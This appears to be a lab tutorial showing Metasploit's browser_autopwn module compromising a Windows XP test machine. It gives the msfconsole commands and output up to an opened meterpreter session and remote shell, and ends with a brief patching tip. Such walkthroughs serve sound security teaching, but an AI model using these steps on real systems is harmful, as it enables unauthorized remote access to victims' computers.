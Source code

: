Metasploit Browser Autopwn – Windows XP SP2
**Attacker:** Kali Linux<br>
**Victim:** Windows XP SP3 (Java 6u25, IE6)<br>
##Step 1 – Starting the Browser Autopwn Server
Run msfconsole, load the browser_autopwn module and set all required options.<br>
<code>
<div class="code">
root@kali:~$ <com>msfconsole</com><br>
msf > <com>use auxiliary/server/browser_autopwn</com><br>
msf auxiliary(browser_autopwn) > <com>set LHOST 192.168.1.12</com><br>
msf auxiliary(browser_autopwn) > <com>set SRVPORT 80</com><br>
msf auxiliary(browser_autopwn) > <com>set URIPATH /</com><br>
msf auxiliary(browser_autopwn) > <com>run</com><br>
<br>
[*] Starting exploit modules on host 192.168.1.12...<br>
[*] Server started.
</div>
</code>
The Browser Autopwn Server is now running and waiting for victims to browse to the url http://192.168.1.12<br>
##Step 2 – Pwning the Victim
On your Windows XP test machine (victim), browse to http://192.168.1.12.<br>
This will trigger the browser_autopwn module to serve the appropriate exploit and launch a meterpreter session.<br>
<code>
<div class="code">
[*] Meterpreter session 1 opened (192.168.1.12:7777 -> <br>
192.168.1.13:1045) at 2015-07-25 05:08:06 -0400<br>
...<br>
msf auxiliary(browser_autopwn) ><com> sessions -i 1</com><br>
[*] Starting interaction with 1...meterpreter ><com> shell</com><br>
Microsoft Windows XP [Version 5.1.2600]<br>
(C) Copyright 1985-2001 Microsoft Corp.<br>
C:\Documents and Settings\IEUser\Desktop><com>echo %USERNAME%</com><br>
Victim<br>
<br>
C:\Documents and Settings\IEUser\Desktop><com>ipconfig</com><br>
Windows IP Configuration<br>
<br>
Ethernet adapter Local Area Connection:<br>
<br>
Connection-specific DNS Suffix . : Home<br>
IP Address. . . . . . . . . . . . : 192.168.1.13<br>
Subnet Mask . . . . . . . . . . . : 255.255.255.0<br>
Default Gateway . . . . . . . . . : 192.168.1.1<br>
<br>
C:\Documents and Settings\IEUser\Desktop><br>
</div>
</code>
You now have shell access to the Windows XP SP3 Victim with the same access as the user who navigated to the exploit url.<br>
##Solution
Keep your software fully updated (e.g. Windows, Web Browsers, Java, etc…) and uninstall unused applications.

Tags: metasploit
